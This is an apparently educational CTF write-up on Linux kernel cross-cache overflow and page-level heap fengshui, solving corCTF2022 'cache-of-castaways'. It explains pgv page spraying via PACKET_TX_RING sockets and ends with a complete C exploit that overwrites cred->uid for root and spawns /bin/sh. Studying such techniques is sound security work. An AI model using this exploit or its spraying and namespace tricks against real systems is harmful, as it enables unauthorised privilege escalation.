



# Cross-Cache Overflow & Page-level Heap Fengshui

> Note: These are two exploitation techniques used in combination.

## Cross-Cache Overflow

Unlike the various exploitation techniques we have previously focused on within the slub allocator, **Cross-Cache Overflow** is actually an exploitation technique **targeting the buddy system**, based on the following idea:

- The underlying logic of the slub allocator is to request pages from the buddy system and then divide them into specific-sized objects to return to the upper-level caller.
  - Pages used for different `kmem_cache` instances in memory can potentially be adjacent.
- If our vulnerable object resides on page A, and the overflow target object resides on page B, and pages A and B are adjacent, then we can potentially achieve a heap overflow across different `kmem_cache` instances.



**Cross-Cache Overflow breaks the barrier between different kmem\_cache instances, allowing our overflow vulnerability to overwrite nearly arbitrary kernel structures.**

However, this requires achieving a very strict page-level heap layout, and the kernel's heap page layout is usually unknown to us. Therefore, we need to find a way to turn it into a known memory layout, which requires **page-level heap fengshui** —

## Page-level Heap Fengshui

As the name suggests, **page-level heap fengshui** is a memory arrangement method with memory pages as the granularity. The kernel memory page layout is not only unknown to us but also contains a huge amount of information. Therefore, this exploitation technique essentially allows us to **manually construct a new, known page-level granularity memory page layout**.

First, let us revisit the process by which the slub allocator requests pages from the buddy system. When the freelist page is exhausted and the partial list is also empty (or when a `kmem_cache` performs its first allocation after being created), it requests pages from the buddy system:



Next, let us revisit the buddy system. Its basic principle is to use 2<sup>order</sup> memory pages as the allocation granularity. Free pages of the same order form a doubly linked list. When pages of a lower order are insufficient, it takes a block of contiguous memory pages from a higher order, splits it in half — one half is put back on the current requested order's list, and the other half is returned to the upper-level caller. The following diagram illustrates the basic principle of buddy system page allocation using order 2 as an example:



It is easy to see that: the two halves of lower-order contiguous memory pages split from a higher order **are physically contiguous**. From this, we can:

- Request two contiguous memory pages from the buddy system.
- Free one of the memory pages, then heap spray on the `vulnerable kmem_cache` to make it take that memory page.
- Free the other memory page, then heap spray on the `victim kmem_cache` to make it take that memory page.

**At this point, we can potentially overflow into other kernel structures, completing the cross-cache overflow.**

### Using setsockopt and pgv for Page-level Memory Occupation and Heap Fengshui

So how do we accomplish such page occupation and page arrangement? Here we present a method from [CVE-2017-7308](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html):

After creating a socket with protocol `PF_PACKET`, we first call `setsockopt()` to set `PACKET_VERSION` to `TPACKET_V1` / `TPACKET_V2`, then call `setsockopt()` to submit a `PACKET_TX_RING`. At this point, the following call chain exists:

```c
__sys_setsockopt()
    sock->ops->setsockopt()
    	packet_setsockopt() // case PACKET_TX_RING ↓
    		packet_set_ring()
    			alloc_pg_vec()
```

In `alloc_pg_vec()`, a `pgv` structure is created to allocate `tp_block_nr` sets of 2<sup>order</sup> memory pages, where `order` is determined by `tp_block_size`:

```c
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
	unsigned int block_nr = req->tp_block_nr;
	struct pgv *pg_vec;
	int i;

	pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
	if (unlikely(!pg_vec))
		goto out;

	for (i = 0; i < block_nr; i++) {
		pg_vec[i].buffer = alloc_one_pg_vec_page(order);
		if (unlikely(!pg_vec[i].buffer))
			goto out_free_pgvec;
	}

out:
	return pg_vec;

out_free_pgvec:
	free_pg_vec(pg_vec, order, block_nr);
	pg_vec = NULL;
	goto out;
}
```

In `alloc_one_pg_vec_page()`, `__get_free_pages()` is called directly to request memory pages from the buddy system, so we can use this function to make a large number of page requests:

```c
static char *alloc_one_pg_vec_page(unsigned long order)
{
	char *buffer;
	gfp_t gfp_flags = GFP_KERNEL | __GFP_COMP |
			  __GFP_ZERO | __GFP_NOWARN | __GFP_NORETRY;

	buffer = (char *) __get_free_pages(gfp_flags, order);
	if (buffer)
		return buffer;
	//...
}
```

Correspondingly, pages in `pgv` are also freed when the socket is closed:

```c
packet_release()
    packet_set_ring()
    	free_pg_vec()
```

`setsockopt()` can also help us accomplish **page-level heap fengshui**. After we exhaust the low order pages in the buddy system, the pages we subsequently request will all be physically contiguous. Therefore, performing `setsockopt()` at this point is **essentially equivalent to obtaining a nearly physically contiguous block of memory** (the reason it is "nearly contiguous" is that the extensive `setsockopt()` flow also allocates many structures we don't need, thereby consuming some pages from the buddy system).

## Example: corCTF2022 - cache-of-castaways

> [Official writeup can be found here](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html)

Challenge files can be downloaded at [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/corCTF2022-cache-of-castaways](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/corCTF2022-cache-of-castaways).

### Challenge Analysis

The challenge files even include the `kconfig`, which is quite thoughtful:

```shell
$ tree .
.
├── bzImage
├── initramfs.cpio.gz
├── kconfig
└── run

0 directories, 4 files
```

The boot script obviously enables SMEP, SMAP, and KPTI (which has basically become standard for kernel challenges):

```bash
#!/bin/sh

exec qemu-system-x86_64 \
    -m 4096M \
    -nographic \
    -kernel bzImage \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on" \
    -netdev user,id=net \
    -device e1000,netdev=net \
    -no-reboot \
    -monitor /dev/null \
    -cpu qemu64,+smep,+smap \
    -initrd initramfs.cpio.gz \
```

The boot script loads an LKM named `cache_of_castaway.ko`. As usual, we load it into IDA. During module initialization, it registers a device and creates a `kmem_cache` with an object size of `512`, creation flags of `SLAB_ACCOUNT | SLAB_PANIC`, and `CONFIG_MEMCG_KMEM=y` is enabled. This means it is an **isolated kmem\_cache**:

```c
__int64 init_module()
{
  __int64 result; // rax

  castaway_dev = 255;
  qword_8A8 = (__int64)"castaway";
  qword_8B0 = (__int64)&castaway_fops;
  _mutex_init(&castaway_lock, "&castaway_lock", &_key_28999);
  if ( !(unsigned int)misc_register(&castaway_dev)
    && (castaway_arr = kmem_cache_alloc(kmalloc_caches[12], 3520LL)) != 0
    && (castaway_cachep = kmem_cache_create("castaway_cache", 0x200LL, 1LL, 0x4040000LL, 0LL)) != 0 )
  {
    result = init_castaway_driver_cold();
  }
  else
  {
    result = 0xFFFFFFFFLL;
  }
  return result;
}
```

The device only defines one ioctl, which includes allocation and editing functionality, both protected by a lock. A maximum of 400 objects can be allocated, and there is no free functionality:

```c
__int64 __fastcall castaway_ioctl(__int64 a1, int a2, __int64 a3)
{
  __int64 v3; // r12
  _QWORD *v5; // rbx
  unsigned __int64 v6[6]; // [rsp+0h] [rbp-30h] BYREF

  v6[3] = __readgsqword(0x28u);
  if ( a2 != 0xCAFEBABE )
  {
    if ( copy_from_user(v6, a3, 24LL) )
      return -1LL;
    mutex_lock(&castaway_lock);
    if ( a2 == 0xF00DBABE )
      v3 = castaway_edit(v6[0], v6[1], v6[2]);
    else
      v3 = -1LL;
LABEL_5:
    mutex_unlock(&castaway_lock);
    return v3;
  }
  mutex_lock(&castaway_lock);
  v3 = castaway_ctr;
  if ( castaway_ctr <= 399 )
  {
    ++castaway_ctr;
    v5 = (_QWORD *)(castaway_arr + 8 * v3);
    *v5 = kmem_cache_alloc(castaway_cachep, 0x400DC0LL);
    if ( *(_QWORD *)(castaway_arr + 8 * v3) )
      goto LABEL_5;
  }
  return ((__int64 (*)(void))castaway_ioctl_cold)();
}
```

The vulnerability exists in the `castaway_edit()` function for editing heap chunks. When copying data, it deliberately starts copying from `object + 6`, resulting in a 6-byte overflow. Since the data is first copied to the kernel stack and then copied within kernel space, the `hardened usercopy` check is not triggered:

```c
__int64 __fastcall castaway_edit(unsigned __int64 a1, size_t a2, __int64 a3)
{
  char src[512]; // [rsp+0h] [rbp-220h] BYREF
  unsigned __int64 v6; // [rsp+200h] [rbp-20h]

  v6 = __readgsqword(0x28u);
  if ( a1 > 0x18F )
    return castaway_edit_cold();
  if ( !*(_QWORD *)(castaway_arr + 8 * a1) )
    return castaway_edit_cold();
  if ( a2 > 0x200 )
    return castaway_edit_cold();
  _check_object_size(src, a2, 0LL);
  if ( copy_from_user(src, a3, a2) )
    return castaway_edit_cold();
  memcpy((void *)(*(_QWORD *)(castaway_arr + 8 * a1) + 6LL), src, a2);
  return a2;
}
```

When editing a heap chunk, we should pass the following structure to the kernel:

```c
struct request {
    int64_t index;
    size_t	size;
    void 	*buf;
};
```

### Exploitation

#### Step.I - cross-cache overflow

Since our vulnerable object resides in an isolated `kmem_cache`, it will not share allocations with other commonly used structures in the kernel. We cannot directly use slub-level heap spraying + heap fengshui to overflow into other structures for further exploitation. Additionally, unlike glibc's ptmalloc2 which has a data-storing header at the beginning of each object, the slub allocator places the next pointer at a random position, making it very difficult to directly overflow into the next object's next field. Due to the hardened freelist, even if we could overflow into the adjacent object's next field, we couldn't construct a valid pointer. Furthermore, the data on pages adjacent to our slub pages is unknown to us — if we overflow directly, we don't know what page we would overflow into :(

So, do we really have no options? The answer is naturally no. Let us turn our attention back to the slub allocator. When the freelist page is exhausted and the partial list is also empty (or when a `kmem_cache` performs its first allocation after being created), it requests pages from the buddy system:


The basic principle of the buddy system is to use 2<sup>order</sup> memory pages as the allocation granularity. Free pages of the same order form a doubly linked list. When pages of a lower order are insufficient, it takes a block of contiguous memory pages from a higher order, splits it in half — one half is put back on the current requested order's list, and the other half is returned to the upper-level caller. The following diagram illustrates the basic principle of buddy system page allocation using order 2 as an example:


It is easy to see that: the two halves of lower-order contiguous memory pages split from a higher order **are physically contiguous**. If one of them is taken by our `kmem_cache`, and the other is taken by a `kmem_cache` used to allocate other kernel structures, **then we can potentially overflow into other kernel structures** — this is **`cross-cache overflow`**.

The specific overflow target is not hard to think of — 6 bytes is just enough for us to overflow into the `uid` field of the `cred` structure to achieve privilege escalation. So how do we overflow into the cred structure of the process we want to escalate? We just need to first fork() and heap spray cred to exhaust the objects in `cred_jar`, forcing it to request new pages from the buddy system. We also need to first spray to consume the existing pages in the buddy system, and then when we allocate cred and the challenge objects, there is a high probability that the two will be adjacent.

The size of `cred` is `192`, and `cred_jar` requests 1 page at a time from the buddy system, which is enough to allocate 21 creds. Therefore, we don't need to spray too many `cred` objects to exhaust `cred_jar`. However, `fork()` generates a lot of "noise" during execution (i.e., it additionally allocates many structures we don't need, thereby affecting the page layout). So here we use `clone(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND)` instead.

> For more details on the "noise" problem, see [bsauce's blog](https://bsauce.github.io/2022/11/07/castaways/#2-3-fork%E5%99%AA%E5%A3%B0%E9%97%AE%E9%A2%98). The author has not yet deeply read the `fork()` related source code.

Since slub pages are not immediately returned to the buddy system after being freed, it is better for us to find some structures that **directly call APIs to request pages from the buddy system**. Here the author chose to follow the official writeup, referencing D3v17's method of using `setsockopt()` for page spraying in [CVE-2017-7308](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html): after creating a socket with protocol `PF_PACKET`, first call `setsockopt()` to set `PACKET_VERSION` to `TPACKET_V1` / `TPACKET_V2`, then call `setsockopt()` to submit a `PACKET_TX_RING`. At this point, the following call chain exists:

```c
__sys_setsockopt()
    sock->ops->setsockopt()
    	packet_setsockopt() // case PACKET_TX_RING ↓
    		packet_set_ring()
    			alloc_pg_vec()
```

In `alloc_pg_vec()`, a `pgv` structure is created to allocate `tp_block_nr` sets of 2<sup>order</sup> memory pages, where `order` is determined by `tp_block_size`:

```c
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
	unsigned int block_nr = req->tp_block_nr;
	struct pgv *pg_vec;
	int i;

	pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
	if (unlikely(!pg_vec))
		goto out;

	for (i = 0; i < block_nr; i++) {
		pg_vec[i].buffer = alloc_one_pg_vec_page(order);
		if (unlikely(!pg_vec[i].buffer))
			goto out_free_pgvec;
	}

out:
	return pg_vec;

out_free_pgvec:
	free_pg_vec(pg_vec, order, block_nr);
	pg_vec = NULL;
	goto out;
}
```

In `alloc_one_pg_vec_page()`, `__get_free_pages()` is called directly to request memory pages from the buddy system, so we can use this function to make a large number of page requests:

```c
static char *alloc_one_pg_vec_page(unsigned long order)
{
	char *buffer;
	gfp_t gfp_flags = GFP_KERNEL | __GFP_COMP |
			  __GFP_ZERO | __GFP_NOWARN | __GFP_NORETRY;

	buffer = (char *) __get_free_pages(gfp_flags, order);
	if (buffer)
		return buffer;
	//...
}
```

Pages in `pgv` are freed when the socket is closed, which is convenient for our subsequent page-level heap fengshui. However, it should be noted that low-privilege users cannot use this function, but we can bypass this restriction by creating a new namespace.

It is important to note that **the process we want to escalate should not be in the same namespace as the page-spraying process**, because the latter needs to create a new namespace, and we should complete the privilege escalation in the original namespace. Therefore, the author chose to create a new process for page spraying and use pipes to communicate between the main process and the spraying process.

#### Step.II - page-level heap fengshui

`setsockopt()` can also help us accomplish **page-level heap fengshui**. After we exhaust the low order pages in the buddy system, the pages we subsequently request will all be physically contiguous. Therefore, performing `setsockopt()` at this point is **essentially equivalent to obtaining a nearly physically contiguous block of memory** (the reason it is "nearly contiguous" is that the extensive `setsockopt()` flow also allocates many structures we don't need, thereby consuming some pages from the buddy system).

In this challenge's environment, the challenge's `kmem_cache` requests one memory page at a time from the buddy system. Since the buddy system follows LIFO, we can:

- First allocate a large number of single memory pages to exhaust the low-order pages in the buddy system.
- Free every other single memory page, then heap spray cred — this way there is a chance of obtaining the single memory pages we released.
- Free the previously skipped interval memory pages, then call the vulnerable function to allocate heap chunks — this way there is a chance of obtaining the interval memory pages we released.
- Use the vulnerability in the module to perform an out-of-bounds write, tamper with `cred->uid`, and achieve privilege escalation.

Our child processes need to poll and wait for their uid to become root, but this approach is not elegant :). So the author chose to use a new pipe to communicate between the main process and child processes. When a child process reads 1 byte from the pipe, it starts checking whether it has successfully escalated privileges. If not, it simply sleeps.

### EXPLOIT

The final exploit is as follows:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdint.h>
#include <string.h>
#include <sched.h>
#include <time.h>
#include <sys/socket.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/wait.h>

#define PGV_PAGE_NUM 1000
#define PGV_CRED_START (PGV_PAGE_NUM / 2)
#define CRED_SPRAY_NUM 514

#define PACKET_VERSION 10
#define PACKET_TX_RING 13

#define VUL_OBJ_NUM 400
#define VUL_OBJ_SIZE 512
#define VUL_OBJ_PER_SLUB 8
#define VUL_OBJ_SLUB_NUM (VUL_OBJ_NUM / VUL_OBJ_PER_SLUB)

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

struct castaway_request {
    int64_t index;
    size_t	size;
    void 	*buf;
};

struct page_request {
    int idx;
    int cmd;
};

enum {
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};

struct timespec timer = {
    .tv_sec = 1145141919,
    .tv_nsec = 0,
};

int dev_fd;
int cmd_pipe_req[2], cmd_pipe_reply[2], check_root_pipe[2];
char bin_sh_str[] = "/bin/sh";
char *shell_args[] = { bin_sh_str, NULL };
char child_pipe_buf[1];
char root_str[] = "\033[32m\033[1m[+] Successful to get the root.\n"
                  "\033[34m[*] Execve root shell now...\033[0m\n";

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error: %s\033[0m\n", msg);
    exit(EXIT_FAILURE);
}

void alloc(void)
{
    ioctl(dev_fd, 0xCAFEBABE);
}

void edit(int64_t index, size_t size, void *buf)
{
    struct castaway_request r = {
        .index = index,
        .size = size,
        .buf = buf,
    };

    ioctl(dev_fd, 0xF00DBABE, &r);
}

int waiting_for_root_fn(void *args)
{
    /* we're using the same stack for them, so we need to avoid cracking it.. */
    __asm__ volatile (
        "   lea rax, [check_root_pipe]; "
        "   xor rdi, rdi; "
        "   mov edi, dword ptr [rax]; "
        "   mov rsi, child_pipe_buf; "
        "   mov rdx, 1;   "
        "   xor rax, rax; " /* read(check_root_pipe[0], child_pipe_buf, 1)*/
        "   syscall;      "
        "   mov rax, 102; " /* getuid() */
        "   syscall; "
        "   cmp rax, 0; "
        "   jne failed; "
        "   mov rdi, 1; "
        "   lea rsi, [root_str]; "
        "   mov rdx, 80; "
        "   mov rax, 1;"    /* write(1, root_str, 71) */
        "   syscall; "
        "   lea rdi, [bin_sh_str];  "
        "   lea rsi, [shell_args];  "
        "   xor rdx, rdx;   "
        "   mov rax, 59;    "
        "   syscall;        "   /* execve("/bin/sh", args, NULL) */
        "failed: "
        "   lea rdi, [timer]; "
        "   xor rsi, rsi; "
        "   mov rax, 35; "  /* nanosleep() */
        "   syscall; "
    );

    return 0;
}

void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}

int create_socket_and_alloc_pages(unsigned int size, unsigned int nr)
{
    struct tpacket_req req;
    int socket_fd, version;
    int ret;

    socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    if (socket_fd < 0) {
        printf("[x] failed at socket(AF_PACKET, SOCK_RAW, PF_PACKET)\n");
        ret = socket_fd;
        goto err_out;
    }

    version = TPACKET_V1;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_VERSION, 
                     &version, sizeof(version));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_VERSION)\n");
        goto err_setsockopt;
    }

    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = nr;
    req.tp_frame_size = 0x1000;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr) / req.tp_frame_size;

    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_TX_RING)\n");
        goto err_setsockopt;
    }

    return socket_fd;

err_setsockopt:
    close(socket_fd);
err_out:
    return ret;
}

__attribute__((naked)) long simple_clone(int flags, int (*fn)(void *))
{
    /* for syscall, it's clone(flags, stack, ...) */
    __asm__ volatile (
        " mov r15, rsi; "   /* save the rsi*/
        " xor rsi, rsi; "   /* set esp and useless args to NULL */
        " xor rdx, rdx; "
        " xor r10, r10; "
        " xor r8, r8;   "
        " xor r9, r9;   "
        " mov rax, 56;  "   /* __NR_clone */
        " syscall;      "
        " cmp rax, 0;   "
        " je child_fn;  "
        " ret;          "   /* parent */
        "child_fn:      "
        " jmp r15;      "   /* child */
    );
}

int alloc_page(int idx)
{
    struct page_request req = {
        .idx = idx,
        .cmd = CMD_ALLOC_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(struct page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

int free_page(int idx)
{
    struct page_request req = {
        .idx = idx,
        .cmd = CMD_FREE_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(req));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

void spray_cmd_handler(void)
{
    struct page_request req;
    int socket_fd[PGV_PAGE_NUM];
    int ret;

    /* create an isolate namespace*/
    unshare_setup();

    /* handler request */
    do {
        read(cmd_pipe_req[0], &req, sizeof(req));

        if (req.cmd == CMD_ALLOC_PAGE) {
            ret = create_socket_and_alloc_pages(0x1000, 1);
            socket_fd[req.idx] = ret;
        } else if (req.cmd == CMD_FREE_PAGE) {
            ret = close(socket_fd[req.idx]);
        } else {
            printf("[x] invalid request: %d\n", req.cmd);
        }

        write(cmd_pipe_reply[1], &ret, sizeof(ret));
    } while (req.cmd != CMD_EXIT);
}

int main(int aragc, char **argv, char **envp)
{
    cpu_set_t cpu_set;
    char th_stack[0x1000], buf[0x1000];

    /* to run the exp on the specific core only */
    CPU_ZERO(&cpu_set);
    CPU_SET(0, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    dev_fd = open("/dev/castaway", O_RDWR);
    if (dev_fd < 0) {
        err_exit("FAILED to open castaway device!");
    }

    /* use a new process for page spraying */
    pipe(cmd_pipe_req);
    pipe(cmd_pipe_reply);
    if (!fork()) {
        spray_cmd_handler();
        exit(EXIT_SUCCESS);
    }

    /* make buddy's lower order clean, castaway_requesting from higher */
    puts("[*] spraying pgv pages...");
    for (int i = 0; i < PGV_PAGE_NUM; i++) {
        if(alloc_page(i) < 0) {
            printf("[x] failed at no.%d socket\n", i);
            err_exit("FAILED to spray pages via socket!");
        }
    }

    /* free pages for cred */
    puts("[*] freeing for cred pages...");
    for (int i = 1; i < PGV_PAGE_NUM; i += 2){
        free_page(i);
    }

    /* spray cred to get the isolate pages we released before */
    puts("[*] spraying cred...");
    pipe(check_root_pipe);
    for (int i = 0; i < CRED_SPRAY_NUM; i++) {
        if (simple_clone(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, 
                         waiting_for_root_fn) < 0){
            printf("[x] failed at cloning %d child\n", i);
            err_exit("FAILED to clone()!");
        }
    }

    /* free pages for our vulerable objects */
    puts("[*] freeing for vulnerable pages...");
    for (int i = 0; i < PGV_PAGE_NUM; i += 2){
        free_page(i);
    }

    /* spray vulnerable objects, hope that we can make an oob-write to cred */
    puts("[*] trigerring vulnerability in castaway kernel module...");
    memset(buf, '\0', 0x1000);
    *(uint32_t*) &buf[VUL_OBJ_SIZE - 6] = 1;    /* cred->usage */
    for (int i = 0; i < VUL_OBJ_NUM; i++) {
        alloc();
        edit(i, VUL_OBJ_SIZE, buf);
    }

    /* checking privilege in child processes */
    puts("[*] notifying child processes and waiting...");
    write(check_root_pipe[1], buf, CRED_SPRAY_NUM);
    sleep(1145141919);

    return 0;
}

```

## REFERENCE

[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x09-Kernel-Heap-Cross-Cache-Overflow-amp-Page-level-Heap-Fengshui](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x09-Kernel-Heap-Cross-Cache-Overflow-amp-Page-level-Heap-Fengshui)

[https://bsauce.github.io/2022/11/07/castaways](https://bsauce.github.io/2022/11/07/castaways)

[https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html)
